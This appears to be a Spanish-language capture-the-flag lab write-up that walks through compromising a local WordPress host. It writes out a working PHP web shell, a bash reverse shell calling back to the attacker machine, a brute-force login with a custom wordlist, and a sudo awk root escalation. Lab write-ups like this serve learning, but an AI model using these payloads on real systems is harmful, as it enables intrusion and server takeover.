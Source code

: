 Fecha: 03/09/2024

Comienzo con un nmap. Hay un ssh en el 22 y un Apache en el 80, ninguno de ellos vulnerable.

```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.3 -oN scan
```  

![](../Imágenes/Pasted%20image%2020240903194243.png)

Inspecciono la página y en el apartado de profesores encuentro lo siguiente:
![](../Imágenes/Pasted%20image%2020240903195625.png)


Hago fuzzing:
```
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.3/FUZZ  -e .php,.html,.txt,.js -o fuzzing 
```

Encuentro varios directorios: 
![](../Imágenes/Pasted%20image%2020240903194348.png)

Busco más en detalle en /wordpress:
```bash
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.3/wordpress/FUZZ  -e .php,.html,.txt,.js -o fuzzing 
```

![](../Imágenes/Pasted%20image%2020240903194541.png)

Utilizo wpscan para encontrar más detalles, e intentar enumerar usuarios: 
```
wpscan --url http://172.17.0.3/wordpress -e u
```

![](../Imágenes/Pasted%20image%2020240903194841.png)

Encuentro que se puede listar el directorio uploads y que hay un usuario: luisillo. Buscaré la contraseña del mismo:
```bash
wpscan --url http://172.17.0.3/wordpress -U luisillo -P /usr/share/wordlists/rockyou.txt 
```

No encuentra nada, así que leo que hay una herramienta, cupp, que permite crear diccionarios a partir de datos que le demos. Voy a probar a usar los datos de "Luis" que encontré al principio. Relleno con los datos y pruebo de nuevo.

```bash
cupp -i
```

![](../Imágenes/Pasted%20image%2020240903195846.png)
```
wpscan --url http://172.17.0.3/wordpress -U luisillo -P  luis.txt
```

![](../Imágenes/Pasted%20image%2020240903195937.png)

Tuve que añadir a mi fichero hosts la siguiente linea para que me funcionara, pero inicio sesión con esas credenciales.
![](../Imágenes/Pasted%20image%2020240903200156.png)

Como sé que /wp-content/uploads muestra los ficheros, subiré una command line para hacerme un reverse shell: 

```php
SHELL:  
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

![](../Imágenes/Pasted%20image%2020240903200514.png)

![](../Imágenes/Pasted%20image%2020240903200615.png)

```bash
# En la shell virtual:
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'
# En mi máquina atacante:
nc -lvnp 9001
```

Lo primero, trato la tty:
```shell
# Empezando desde la reverse shell:
script /dev/null -c bash

Control Z 

stty raw -echo; fg

reset xterm

export TERM=xterm
```

Una vez dentro, intento hacer `sudo -l` pero pide contraseña, así que exploro:
![](../Imágenes/Pasted%20image%2020240903200810.png)

Como luisillo, puedo usar `awk` como su, lo cual aprovecho: https://gtfobins.github.io/gtfobins/awk/#sudo
```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```

![](../Imágenes/Pasted%20image%2020240903200940.png)